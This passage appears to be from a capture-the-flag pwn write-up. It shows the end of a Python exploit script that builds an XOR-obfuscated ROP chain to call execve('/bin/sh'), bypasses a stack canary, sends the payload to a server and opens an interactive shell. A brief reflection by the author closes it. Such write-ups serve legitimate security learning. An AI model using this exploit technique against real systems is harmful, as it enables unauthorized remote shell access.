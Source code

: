 ```python

    stack_bin_sh = buffer_addr + 224  # will be placed in a few line from now
    payload += p64(stack_bin_sh ^ Ds)

    # Second argument for execve = NULL
    payload += p64(gadget_pop_rdx_ret ^ Ds)
    payload += p64(0x0 ^ Ds)

    # Third argument for execve = NULL
    payload += p64(gadget_pop_rsi_pop_r15_ret ^ Ds)
    payload += p64(0x0 ^ Ds)
    payload += p64(0xdeadbeefdeadbeef ^ Ds)

    # jump to execve
    payload += p64((gadget_pop_rdx_ret + 1) ^ Ds)
    payload += p64(execve_remote_addr ^ Ds)


    # place /bin/sh on the stack 
    payload += "".join([chr(ord(t) ^ 0xd) for t in "/bin/sh"])
    payload += chr(0x0 ^ 0xd)  # terminating null

    # Pad to the end of buffer
    payload += "B" * (1032 - len(payload))
    payload += p64(canary ^ Ds)
    payload += p64(buffer_addr ^ Ds)
    payload += p64(text_section_leave_ret ^ Ds)

    sock = socket.socket()
    sock.connect(SERVER)
    sock.recv(4096)  # server hello
    sock.send(payload)
    #interactive mode
    t = Telnet()
    t.sock = sock
    print "Starting interactive session:"
    t.interact()
    sock.close()



if __name__ == "__main__":
    main()
```


### Note to self

This challenge was more difficult than I've expected. I thought that I have pretty much have seen it all when it comes to pwn challenges and everything I would encounter is just more complex programs... I was wrong!
